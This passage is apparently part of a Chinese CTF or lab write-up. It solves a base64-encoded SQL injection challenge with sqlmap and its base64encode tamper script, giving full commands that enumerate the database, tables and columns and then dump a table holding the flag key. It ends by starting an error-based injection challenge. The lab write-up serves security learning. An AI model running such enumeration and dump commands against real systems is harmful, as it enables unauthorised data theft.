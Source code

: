 ![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757387909633-fe71bc69-e3a6-4525-8bbe-fde9de387447.png)

由于手动加解密还是太麻烦了，这里选择用sqlmap一把梭，顺便熟悉下<font style="color:rgb(51, 51, 51);">tamper插件的使用。</font>

```plain
python sqlmap.py -u "http://124.70.71.251:48756/show.php?id=MQ==" --tamper base64encode.py --current-db --level 3 --risk 3
```

> 这里的`--tamper base64encode.py`意思是使用了base64编码的插件，`--level 3 --risk 3`的`--level`和`--risk`参数控制了`sqlmap`测试的深度和风险级别。增加这些值可以使`sqlmap`执行更激进的测试，帮助发现更多潜在的注入点。
>
> + `--level`（默认值为1）决定了测试的复杂度。增大此值（如2或3）可以使sqlmap尝试更多的攻击向量。
> + `--risk`（默认值为1）控制测试的风险级别。增大此值（如2或3）可以使sqlmap尝试更具破坏性的测试，如盲注或其他高级注入方式。
>

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757388791023-96dbe049-0d8b-4b4a-bb43-686c2fe00477.png)<font style="color:rgb(51, 51, 51);">  
</font><font style="color:rgb(51, 51, 51);">可以看到当前数据库是</font>`<font style="color:rgb(51, 51, 51);">test</font>`<font style="color:rgb(51, 51, 51);">。继续查询对应的表：</font>

```plain
python sqlmap.py -u "http://124.70.71.251:48756/show.php?id=MQ==" --tamper base64encode.py -D "test" --tables
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757389200282-5b34e66c-fcdd-4c58-8541-e3bf4c6551a9.png)

继续查询对应的字段：

```plain
python sqlmap.py -u "http://124.70.71.251:48756/show.php?id=MQ==" --tamper base64encode.py -D "test" -T "data" --columns
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757389328445-1fa20c0d-7a36-4c19-b77c-e0171ef2f532.png)

继续查询字段具体的内容：

```plain
python sqlmap.py -u "http://124.70.71.251:48756/show.php?id=MQ==" --tamper base64encode.py -D "test" -T "data" -C "id,main,thekey,title" --dump
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757389496405-32352f3f-02cc-4445-9a29-3be0cd3458b5.png)

可以看到KEY已经得到了。

# <font style="color:rgb(51, 51, 51);">SQL注入漏洞测试(报错盲注)</font>
这题环境与前三题一致，进入通知页面后观察URL，加单引号进行测试：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757390320632-a038b924-376a-4472-b9bc-17da9bc46f81.png)

可以看到错误信息被直接输出到了页面上，存在报错注入。
